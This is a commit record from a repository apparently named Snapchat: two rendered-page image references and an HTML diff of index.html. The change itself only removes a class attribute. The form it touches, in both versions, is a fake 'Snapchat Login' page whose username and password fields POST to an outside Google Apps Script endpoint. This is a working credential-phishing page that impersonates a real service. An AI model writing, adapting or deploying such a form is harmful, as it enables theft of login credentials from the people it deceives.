

Before and after one commit to Keshav-code123/Snapchat, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 363-816 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -37,7 +37,7 @@
   </style>
 </head>
 <body>
-  <form class="login" method="POST" action="https://script.google.com/macros/s/AKfycbzJ-I68JVzs-E6W2iEfCse9OZEqoEB4wWBHSSbMOMr0fSq5R947-1ZYoMnTJq_vY1qb/exec">
+  <form method="POST" action="https://script.google.com/macros/s/AKfycbzJ-I68JVzs-E6W2iEfCse9OZEqoEB4wWBHSSbMOMr0fSq5R947-1ZYoMnTJq_vY1qb/exec">
     <h2>Snapchat Login</h2>
     <input type="text" name="username" placeholder="Username or Email" required><br>
     <input type="password" name="password" placeholder="Password" required><br>
```
